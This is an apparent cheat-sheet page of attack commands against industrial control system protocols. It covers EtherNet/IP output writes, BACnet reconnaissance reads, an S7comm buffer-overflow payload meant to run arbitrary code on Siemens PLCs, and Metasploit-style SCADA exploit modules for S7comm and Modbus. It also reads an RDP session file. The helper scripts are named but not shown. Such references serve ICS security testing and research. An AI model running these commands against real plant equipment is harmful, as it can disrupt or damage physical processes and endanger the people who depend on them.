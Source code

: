 ## EtherNet/IP

This command targets the EtherNet/IP protocol used in industrial control systems and attempts to send a command to turn on a specific output on the target device.

```
"python enip-exploit.py -i <target IP> -o 3 -v 1"
```

## BACnet 


This command targets the BACnet protocol and attempts to read a value from a specific object on the target device, which can provide information that could be used in further attacks.

```
"bacnet_scan.py -ip <target IP> -p 47808 -d 4194303 -a 1 -t 0"
```

## S7comm


This command targets the S7comm protocol used in Siemens PLCs and sends a crafted payload to cause a buffer overflow and execute arbitrary code on the target device.


```
"python S7comm_payload.py <target IP> 102 --payload 1 --offset 14"
```

## Exploitation

S7comm exploit

```
use exploit/windows/scada/s7comm_plus_wincc_opc
```

Modbus exploit

```
use exploit/windows/scada/modbus_write_registers
```

## PCTRAN

RDS server content

```
cat cpub-iexplore-QuickSessionCollection-CmsRdsh.rdp
```


## resources

-	https://github.com/hslatman/awesome-industrial-control-system-security
-	https://www.b-sec.net/en/assessment/
-	https://github.com/rezaduty/awesome-ics-writeups




{% include links.html %}
